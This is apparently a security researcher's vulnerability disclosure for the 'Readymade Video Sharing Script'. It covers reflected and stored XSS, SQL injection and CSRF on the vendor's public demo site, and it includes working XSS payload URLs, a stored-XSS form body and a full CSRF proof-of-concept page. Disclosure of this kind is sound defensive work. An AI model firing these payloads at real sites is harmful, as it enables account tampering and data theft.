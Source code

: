 ### Readymade Video Sharing Script- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF

ADLab of Venustech

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss1.png)

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=123%27123%22123%3E123%3Cimg%20src=x%20onerror=prompt(/xss3/)%3E123%3C123%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss2.png)


##### Stored-XSS 


```
http://www.smsemailmarketing.in/demo/videosharing/user-profile-edit.php
```

POST parameters:

```
------WebKitFormBoundaryb1Z9ur8DUtIWkCxA
Content-Disposition: form-data; name="fname"

lzx'"><svg/onload=alert(/xss2/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/xss3.png)


#### SQL Injection:

##### sqli1
```
http://www.smsemailmarketing.in/demo/videosharing/search_video.php?search=123
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli1.png)

##### sqli2

```
http://www.smsemailmarketing.in/demo/videosharing/viewsubs.php?chnlid=321
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Readymade-Video-Sharing-Script/sqli2.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.smsemailmarketing.in\/demo\/videosharing\/user-profile-edit.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryb1Z9ur8DUtIWkCxA");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"fname\"\r\n" + 
          "\r\n" + 
          "lzx\'\"\x3e\x3csvg/onload=alert(/xss2/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"lname\"\r\n" + 
          "\r\n" + 
          "lzx\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"mobile\"\r\n" + 
          "\r\n" + 
          "1311144111\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"country\"\r\n" + 
          "\r\n" + 
          "17\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"zip_code\"\r\n" + 
          "\r\n" + 
          "123123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr1\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"addr2\"\r\n" + 
          "\r\n" + 
          "test123\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"profile_image\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Save Profile\r\n" + 
          "------WebKitFormBoundaryb1Z9ur8DUtIWkCxA--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

